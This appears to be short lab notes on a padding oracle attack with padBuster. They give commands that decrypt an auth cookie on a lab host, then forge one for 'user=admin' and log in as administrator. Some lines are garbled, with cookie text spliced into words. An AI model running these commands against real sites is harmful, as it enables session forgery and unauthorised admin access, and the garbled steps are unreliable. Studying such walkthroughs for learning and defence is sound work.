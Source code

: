 ## padbuster

```
Automated script for performing Padding Oracle attacks
```

1.  get a sample of encrypted data

![image-20200920214646458](padbuster.assets/image-20200920214646458.png)



2. provide the sample to padt3ys%2FoQAWpJHYkinmbDc1%2FT0F -cookies auth=GoAmEM1t3ys%2FoQAWpJHYkinmbDc1%2FT0F 8Buster

```
perl padBuster.pl http://10.10.10.18/ GoAmEM1t3ys%2FoQAWpJHYkinmbDc1%2FT0F -cookies auth=GoAmEM1t3ys%2FoQAWpJHYkinmbDc1%2FT0F 8
```

![image-20200920214803810](padbuster.assets/image-20200920214803810.png)



3. it will take some time to decrypt.

![image-20200920215336076](padbuster.assets/image-20200920215336076.png)



4. auth=we also perform reverse attack that is encrypting something to this encryption

```
perl padBuster.pl http://10.10.10.18/ GoAmEM1t3ys%2FoQAWpJHYkinmbDc1%2FT0F -cookies auth=GoAmEM1t3ys%2FoQAWpJHYkinmbDc1%2FT0F 8 --plaintext user=admin
```

![image-20200920220602474](padbuster.assets/image-20200920220602474.png)



5. set the cookie and we logged in as admin

![image-20200920220719949](padbuster.assets/image-20200920220719949.png)